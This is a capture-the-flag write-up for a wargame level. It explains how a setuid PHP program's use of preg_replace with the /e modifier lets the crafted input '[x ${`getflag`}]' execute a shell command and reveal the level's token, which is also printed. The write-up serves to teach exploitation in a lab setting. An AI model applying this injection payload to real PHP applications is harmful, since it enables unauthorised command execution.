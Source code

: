 When we started the level06, in the home of the user we found the two files:
- **level06** which is a binary file.
- **level06.php** whichh is the source of the binary.

Here are permissions:
```bash
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Which means that the binary file can execute getflag.

With this idea in mind, we read the php file.
```php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```

It use regext to modify a string.
The important part is "``preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a)``".
In PhP, the /e regex balise is used to evaluate what we pars as a command.

By creating a file like this:
```bash
echo '[x ${`getflag`}]' > /tmp/test.txt
```

And executing the binary file like this:

```bash
./level06 /tmp/test.txt
```

We get:
```bash
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
Because the regex will first go through the regex ``"/(\[x (.*)\])/e"``
which will then go in ``"y(\"\\2\")"`` which is executed as a command.

Since we wrote ``${`getflag`}`` it will execute the argument getflag as a function so give the flag.